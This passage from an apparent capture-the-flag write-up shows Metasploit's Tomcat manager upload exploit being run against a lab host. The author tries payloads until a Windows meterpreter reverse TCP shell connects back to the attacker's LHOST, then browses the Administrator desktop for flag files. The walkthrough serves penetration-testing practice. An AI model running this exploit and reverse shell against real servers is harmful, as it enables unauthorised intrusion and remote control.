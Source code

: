 ```
HttpUsername => tomcat
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set RHOSTS 10.129.75.157
RHOSTS => 10.129.75.157
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set RPORT 8080
RPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> run

[-] Exploit failed: java/meterpreter/reverse_tcp is not a compatible payload.
[*] Exploit completed, but no session was created.
```
Apparently, we cannot use the default payload. Let's use a Windows-specific payload:
```
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> run

[*] Started reverse TCP handler on 192.168.0.87:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying FEXjXwubN02rJ1Hb7yfTrEgOq...
[*] Executing FEXjXwubN02rJ1Hb7yfTrEgOq...
[*] Undeploying FEXjXwubN02rJ1Hb7yfTrEgOq ...
[*] Undeployed at /manager/html/undeploy
[*] Exploit completed, but no session was created.
```
It is better but not enough. Indeed, I forget to configure `LHOST`:
```
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set LHOST tun0
LHOST => 10.10.14.45
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> exploit

[*] Started reverse TCP handler on 10.10.14.45:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying NLixWIBXkKRkT...
[*] Executing NLixWIBXkKRkT...
[*] Sending stage (175686 bytes) to 10.129.75.157
[*] Undeploying NLixWIBXkKRkT ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.14.45:4444 -> 10.129.75.157:49194) at 2023-10-22 11:23:04 +0200

(Meterpreter 1)(C:\apache-tomcat-7.0.88) > 
```
We can now search for the flag. I looked at the `Users` directory one by one to finally found the flags:
```
(Meterpreter 1)(C:\apache-tomcat-7.0.88) > cd C:\\Users\\Administrator\\Desktop\\
(Meterpreter 1)(C:\Users\Administrator\Desktop) > dir
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-06-19 05:43:09 +0200  desktop.ini
040777/rwxrwxrwx  0     dir   2018-06-19 06:09:40 +0200  flags

(Meterpreter 1)(C:\Users\Administrator\Desktop) > cd flags\\
(Meterpreter 1)(C:\Users\Administrator\Desktop\flags) > dir
Listing: C:\Users\Administrator\Desktop\flags
=============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  88    fil   2018-06-19 06:11:36 +0200  2 for the price of 1.txt
```